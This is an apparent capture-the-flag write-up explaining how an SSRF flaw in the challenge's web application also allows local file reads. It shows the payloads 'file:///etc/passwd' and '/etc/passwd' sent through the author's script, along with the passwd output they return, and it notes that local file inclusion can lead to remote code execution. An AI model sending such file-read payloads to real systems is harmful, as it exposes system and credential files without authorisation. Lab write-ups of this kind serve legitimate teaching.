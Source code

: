 # Reverse Engineering the Application Environment

After completing all the objectives and sending Jack home with the Trolls, I wanted
to see how much information about the underlying system the web application was
running on. The answer is, quite a lot, enough to reverse engineer the system to
duplicate it on my local machine.

## SSRF is (in This App) Also LFI

After trying some different payloads from
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), I 
attempted a payload containing a `file://` resource to attempt to read a file
from the filesystem. To my surprise, it worked:

``` shell-session
$ python apply-ssrf.py
ssrf> file:///etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
...
```

Trying without the `file://` also worked:

``` shell-session
ssrf> /etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
...
```

In this application, the SSRF vulnerability also allows
an attacker to read local files, known as a [Local File
Inclusion (LFI)](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#Local_file_inclusion)
exploit. In certain situations, LFI vulnerabilities can be leveraged by an 
attacker to gain [Remote Code Execution](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)
on the server, leading to much greater compromise. 
